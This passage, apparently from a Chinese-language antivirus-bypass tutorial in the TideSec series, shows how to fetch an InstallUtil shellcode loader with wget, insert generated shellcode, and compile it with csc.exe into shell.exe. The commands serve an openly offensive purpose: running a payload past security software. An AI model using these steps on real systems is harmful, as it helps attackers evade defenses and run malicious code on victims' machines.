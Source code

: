 ![1b760074e79ad80e3965d0bc6b91d680](images/2020.03-bypass-04/15.png)

下载InstallUtil-Shellcode.cs

`wget https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/InstallUtil-Shellcode.cs`

将上面生成的shellcode复制到`InstallUtil-Shellcode.cs`文件中。


使用csc编译InstallUtil-ShellCode.cs
```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /unsafe /platform:x86 /out:C:\test\shell.exe C:\test\InstallUtil-ShellCode.cs
```
